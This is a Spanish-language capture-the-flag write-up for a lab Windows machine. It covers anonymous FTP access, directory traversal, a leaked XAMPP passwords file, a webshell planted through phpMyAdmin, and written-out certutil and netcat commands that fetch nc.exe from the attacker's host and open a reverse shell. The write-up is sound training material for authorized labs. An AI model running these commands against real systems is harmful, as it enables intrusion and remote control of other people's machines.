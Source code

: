 # WRITEUP Django

### ESCANEO
#### 10.150.150.212	Windows	Easy
```
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
8089/tcp  open  unknown
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
```

Iniciando un escaneo a la maquina, podemos observar varios puertos interesantes. El puerto 21,80,445 y el 3306.
Siempre que veamos el servicio ftp abierto, debemos intentar loguearnos como "anonymous" ya que algunas veces está activado el usuario y podría contener cosas valiosas.

### ENUMERACIÓN

Empezando por el puerto más chico, intenté loguearme como anonymous al servicio ftp y logré obtener los siguientes archivos.

![iamgen1](img/imagen_2021-03-09_230959.png)

al abrirlos nos topamos con la siguiente información 

![iamgen2](img/2.PNG)
![iamgen3](img/3.PNG)

como podemos observar, hay una ruta muy interesante "C:\xampp\passwords.txt". Entonces volví a ingresar al servicio ftp e intenté listar desde raíz y me listó todo.

### EXPLOTACIÓN 

Algo muy interesante que logré encontrar fue que si hago un listado del directorio recorriendo hacia atrás, sí me muestra todos los directorios... lo cual fue muy interesante ya que puedo acceder a las carpetas de otros usuarios. La primera y segunda FLAG, se encuentra en el mismo directorio de xampp

`-rw-rw-rw-   1 ftp      ftp           40 Mar 13  2019 FLAG20.txt`


```
C:\FTP\FLAG>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3829-EAA8

 Directory of C:\FTP\FLAG

03/13/2019  01:17 PM    <DIR>          .
03/13/2019  01:17 PM    <DIR>          ..
03/13/2019  01:22 PM                40 FLAG19.txt
               1 File(s)             40 bytes
               2 Dir(s)   3,864,674,304 bytes free
```

![iamgen3](img/4.PNG)

```
ftp> dir ../Users/
200 Port command successful.
150 Opening data connection for directory list.
dr--r--r--   1 ftp      ftp            0 Nov 13  2018 .
dr--r--r--   1 ftp      ftp            0 Nov 13  2018 ..
drw-rw-rw-   1 ftp      ftp            0 Oct 22  2019 chuck.norris
dr--r--r--   1 ftp      ftp            0 Jul 14  2009 Public
drw-rw-rw-   1 ftp      ftp            0 Nov 13  2018 rambo
```

si accedemos al directorio de "chuck.norris" podemos encontrar la tercera flag.

![iamgen3](img/5.PNG)

Ahora, si accedemos a la ruta que habíamos encontrado en los logs, podemos descargar ese archivo que contiene lo siguiente:

```
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

User: root
Password:thebarrierbetween

2) FileZilla FTP:

[ You have to create a new user on the FileZilla Interface ]

3) Mercury (not in the USB & lite version):

Postmaster: Postmaster (postmaster@localhost)
Administrator: Admin (admin@localhost)

User: newuser
Password: wampp

4) WEBDAV:

User: xampp-dav-unsecure
Password: ppmax2011
Attention: WEBDAV is not active since XAMPP Version 1.7.4.
For activation please comment out the httpd-dav.conf and
following modules in the httpd.conf

LoadModule dav_module modules/mod_dav.so
LoadModule dav_fs_module modules/mod_dav_fs.so
Please do not forget to refresh the WEBDAV authentification (users and passwords).
```

Como podemos observar, hay varias credenciales que podemos utilizar. Arriba habíamos localizado el puerto 3306 que hace referencia a MYSQL, por lo tanto si accedo por el navegador directamente a ese puerto me debería lanzar el formulario de logueo.

![iamgen6](img/6.PNG)

una vez ingresando a phpmyadmin, podemos ver la ultima flag.

![iamgen6](img/7.PNG)

Ya que tenemos acceso directamente a la consola, podemos intentar subir una webshell mediante un query y mandarnos una reverse shell para obtener acceso.

![iamgen6](img/8.PNG)

Una vez que tenemos la webshell, procederemos a montar un servidor http y descargarle una reverse shell con la utilidad certutil.

![iamgen6](img/9.PNG)

`http://10.150.150.212/rs.php?cmd=certutil -urlcache -split -f "http://10.66.66.106/nc.exe" C:\\Windows\\system32\\spool\\drivers\\color\\nc.exe`

Ahora sólo resta ejecutar nc apuntando hacia nuestra dirección IP.

`http://10.150.150.212/rs.php?cmd=C:\\Windows\\system32\\spool\\drivers\\color\\nc.exe MiIP 443 -e cmd.exe`


y listo, tenemos una reverse shell.

![iamgen6](img/10.PNG)


Esta maquina nos demuestra que tan importante es desactivar el usuario anonymous ya que es muy peligroso si no tenemos bien configurado nuestro servidor FTP.
Las configuraciones por defecto siempre son peligrosas y pueden costarnos muy caro. 


Contacto: [Linkedin](https://www.linkedin.com/in/jairr/) [Twitter](https://twitter.com/_niggurath_)


Write-ups have been authorized for this machine by the PwnTillDawn Crew! We are just asking you to give us credit by adding a backlink to [wizlynxgroup](https://www.wizlynxgroup.com/) and [Pwntilldawn](https://online.pwntilldawn.com/) in your write-up.

